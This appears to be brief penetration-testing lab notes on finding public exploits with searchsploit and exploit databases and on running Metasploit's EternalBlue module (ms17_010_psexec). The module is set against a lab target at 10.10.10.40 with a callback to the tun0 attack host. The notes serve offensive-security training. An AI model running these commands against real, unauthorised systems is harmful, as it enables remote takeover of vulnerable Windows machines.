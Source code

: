 ## Finding public exploits

Google: application name + exploit

Searchsploit: 

```shell-session
searchsploit openssh 7.2
```

Online databases: [Exploit DB](https://www.exploit-db.com/), [Rapid7 DB](https://www.rapid7.com/db/), or [Vulnerability Lab](https://www.vulnerability-lab.com/).

## Metasploit

```shell-session
msfconsole
```

```shell-session
msf6 > search exploit eternalblue
```

Use:

```shell-session
msf6 > use exploit/windows/smb/ms17_010_psexec
```

Show options
```shell-session
msf6 > show options
```
Any options set to yes need to be set to work.
RHOST = target IP
LHOST = attack host IP (IP associated with tun0)
```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => tun0
```
Check first to see if vulnerable:
```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > check
```
Run/exploit:
```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > exploit
```
